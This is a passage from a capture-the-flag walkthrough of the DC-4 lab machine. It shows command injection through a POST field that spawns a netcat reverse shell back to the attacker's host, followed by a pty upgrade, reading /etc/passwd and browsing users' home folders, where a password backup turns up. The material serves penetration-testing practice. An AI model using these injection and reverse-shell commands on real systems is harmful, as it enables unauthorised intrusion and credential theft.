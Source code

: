### BASIC SHELL  
  
Here we go. Now we have our credentials: "Admin:happy" and we can start testing. First, let's see if we can change the command that is being executed:  
  
root@kali:~# curl -H 'Cookie: PHPSESSID=mf6fjsv8ve3ln8jchi3p0ue3i7' -d 'radio=id&submit=Run'     'hxxp://192.168.111.6/command.php'  
>...  
>You have selected: id\<br /\>\<pre\>uid=33(www-data) gid=33(www-data) groups=33(www-data)  
>...  
  
Now, just have to pup up a shell and have fun :)  
  
root@kali:~# curl -H 'Cookie: PHPSESSID=mf6fjsv8ve3ln8jchi3p0ue3i7' -d 'radio=nc+192.168.111.5+4444+-e+/bin/bash&submit=Run' 'hxxp://192.168.111.6/command.php' -v  
  
root@kali:~# nc -nlvp 4444  
>listening on [any] 4444 ...  
>connect to [192.168.111.5] from (UNKNOWN) [192.168.111.6] 35014  
>id  
>uid=33(www-data) gid=33(www-data) groups=33(www-data)  
>python -c 'import pty;pty.spawn("/bin/bash")'  
  
www-data@dc-4:/usr/share/nginx/html$ id  
>uid=33(www-data) gid=33(www-data) groups=33(www-data)  
  
www-data@dc-4:/usr/share/nginx/html$ hostname  
>dc-4  
  
Let's check if there are any users in this machine. After all, there was a SSH service running...  
  
www-data@dc-4:/usr/share/nginx/html$ cat /etc/passwd  
>root:x:0:0:root:/root:/bin/bash  
>...  
>charles: x :1001:1001:Charles,,,:/home/charles:/bin/bash  
>jim: x :1002:1002:Jim,,,:/home/jim:/bin/bash  
>sam: x :1003:1003:Sam,,,:/home/sam:/bin/bash  
  
Charles, Jim and SAM... With their own home folders...  
  
www-data@dc-4:/usr/share/nginx/html$ ls -lrth /home/*/  
>/home/jim/:  
>total 12K  
>-rw------- 1 jim jim  528 Apr  6 20:20 mbox  
>-rwsrwxrwx 1 jim jim  174 Apr  6 20:59 test.sh  
>drwxr-xr-x 2 jim jim 4.0K Apr  7 02:58 backups  
>  
>/home/charles/:  
>total 0  
>  
>/home/sam/:  
>total 0  
  
Interesting, backups?  
  
www-data@dc-4:/home/jim$ file backups/old-passwords.bak  
>backups/old-passwords.bak: ASCII text  
  
